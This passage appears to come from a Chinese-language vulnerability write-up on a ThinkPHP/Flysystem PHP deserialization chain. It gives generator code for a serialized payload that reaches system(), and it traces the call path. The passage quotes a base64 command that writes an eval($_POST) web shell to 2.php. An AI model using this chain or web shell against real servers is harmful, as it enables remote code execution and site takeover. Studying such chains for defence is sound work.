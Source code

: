 ```bash
        {
            $this->key    = $key;
            $this->store  = $store;
            $this->expire = $expire;
        }
    }
}

namespace think\cache{
    abstract class Driver{

    }
}
namespace think\cache\driver{
    use think\cache\Driver;
    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'y4tacker',
            'hash_type'     => 'md5',
            'serialize'     => ['system'],
        ];
    }
}
namespace{
    $b = new think\cache\driver\File();
    $a = new think\filesystem\CacheStore($b,'y4tacker','1111');
    echo urlencode(serialize($a));

}
```

### 分析

这个链子也非常简单 League\\Flysystem\\Cached\\Storage\\AbstractCache 的\_\_destruct

```bash
public function __destruct()  
{  
    if (! $this->autosave) {  
        $this->save();  
    }  
}
```

think\\filesystem 的 CacheStore.php 的 save() 方法:getForStorage() 方法调试多了都有经验了，这里设置的 cache 是一维数组会直接返回 cache 的值： 
\['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'\]  
最后返回 json\_encode 函数处理后的结果  
\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]  
然后进入$this->store->set，也就是 think\\cache\\driver\\File 的 set() 方法：创建文件目录和文件名后进入 serialize 方法这里提前设置了$this->options\['serialize'\]为 system 执行  
system('\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]')  
最后虽然没有返回但是命令也被执行了，成功创建文件  
我们自然可以只赋值 complete 变量，把 cache 变量设置为空数组也可以
